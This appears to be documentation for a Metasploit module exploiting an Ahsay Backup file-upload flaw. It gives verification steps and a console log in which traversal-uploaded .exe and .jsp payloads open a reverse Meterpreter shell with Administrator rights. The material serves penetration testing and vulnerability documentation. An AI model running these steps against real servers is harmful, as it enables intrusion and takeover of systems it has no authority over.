 ## Vulnerable Application
  Ahsay Backup v7.x - v8.1.1.50
  Download the vulnerable version: `http://ahsay-dn.ahsay.com/v8/81150/cbs-win.exe`
  Start the application ( I start it manually from `C:\Program Files\AhsayCBS\bin\startup.bat`)
  
## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ahsay_fileupload`
  3. enable create trial account `set CREATEACCOUNT true`
  4. set RHOST `set RHOST 172.16.238.175` 
  5. set LHOST `set LHOST 172.16.238.235`
  6. run exploit `run`
  7. We should receive a meterpreter shell.

## Options

   CREATEACCOUNT  - Create a Trial account, use this when trial accounts is enabled and you do not have a valid credentials.
   PASSWORD       - Password to Ahsay useraccount, if CREATEACCOUNT is set this password will be used.
   RHOST          - Target address.
   RPORT          - The target port (TCP).
   TARGETURI      - Path to Ahsay installation
   UPLOADPATH     - Path to where the file should be uploaded
   USERNAME       - Username to Ahsay account, if CREATEACCOUNT is set this username will be used.
   
## Scenarios

### Version of software and OS as applicable

This exploit has been tested on Windows 2003 SP2.

  ```
msf exploit(windows/misc/ahsay_fileupload) > set CREATEACCOUNT true
CREATEACCOUNT => true
msf exploit(windows/misc/ahsay_fileupload) > set RHOST 172.16.238.175
RHOST => 172.16.238.175
msf exploit(windows/misc/ahsay_fileupload) > set LHOST 172.16.238.235
LHOST => 172.16.238.235
msf exploit(windows/misc/ahsay_fileupload) > run

[*] Started reverse TCP handler on 172.16.238.235:4444 
[+] Username and password are valid!
[+] No need to create account, already exists!
[*] Uploading payload
[+] Succesfully uploaded ../../webapps/cbs/help/en/lcofxnrzON.exe
[*] Uploading payload
[+] Succesfully uploaded ../../webapps/cbs/help/en/myjnJMFlNi.jsp
[*] Triggering exploit! https://172.16.238.175:443/cbs/help/en/myjnJMFlNi.jsp
[+] Exploit executed!
[*] Sending stage (179779 bytes) to 172.16.238.175
[*] Meterpreter session 1 opened (172.16.238.235:4444 -> 172.16.238.175:1114) at 2019-07-16 14:59:45 +0200
[!] This exploit may require manual cleanup of '../../webapps/cbs/help/en/lcofxnrzON.exe' on the target
[!] This exploit may require manual cleanup of '../../webapps/cbs/help/en/myjnJMFlNi.jsp' on the target

meterpreter > getuid
Server username: AHSAY-123\Administrator
  ```
